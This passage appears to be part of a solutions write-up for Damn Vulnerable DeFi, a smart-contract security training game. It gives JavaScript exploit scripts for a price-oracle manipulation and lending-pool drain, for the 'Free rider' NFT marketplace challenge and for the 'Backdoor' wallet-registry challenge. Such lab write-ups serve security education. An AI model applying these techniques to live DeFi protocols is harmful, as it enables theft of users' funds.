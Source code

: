 ``` JS

//Dump all tokens in exchange
await this.uniswapRouter.connect(attacker).swapExactTokensForTokens(
	ATTACKER_INITIAL_TOKEN_BALANCE,
	1337,
	[
		this.token.address,
		this.weth.address
	],
	attacker.address,
	Date.now() + 3600000
);

//Convert majority of funds to WETH
await this.weth.connect(attacker).deposit({value: await attacker99Percent()});

//Approve colaterral transfer
await this.weth.connect(attacker).approve(
	this.lendingPool.address,
	this.weth.balanceOf(attacker.address)
);

//Borrow all tokens
await this.lendingPool.connect(attacker).borrow(POOL_INITIAL_TOKEN_BALANCE);
```

### [Free rider](https://www.damnvulnerabledefi.xyz/challenges/10.html)
``` JS
const FreeRiderExploitFactory = await ethers.getContractFactory('FreeRiderExploit', attacker);

let FreeRiderExploit = await FreeRiderExploitFactory.deploy(
	this.uniswapPair.address,
	this.marketplace.address,
	this.weth.address,
	this.nft.address,
	this.buyerContract.address
);

let tx = await FreeRiderExploit.connect(attacker).exploit(
	[0, 1, 2, 3, 4, 5],
	ethers.utils.parseEther('15'),
	{value:ethers.utils.parseEther('0.3')}
);

await tx.wait();
```

### [Backdoor](https://www.damnvulnerabledefi.xyz/challenges/11.html)
``` JS
await (await (await ethers.getContractFactory('BackdoorExploit', attacker)).deploy(
	this.token.address,
	this.walletFactory.address
)).exploit(
	users,
	this.masterCopy.address,
	this.walletRegistry.address
)
```
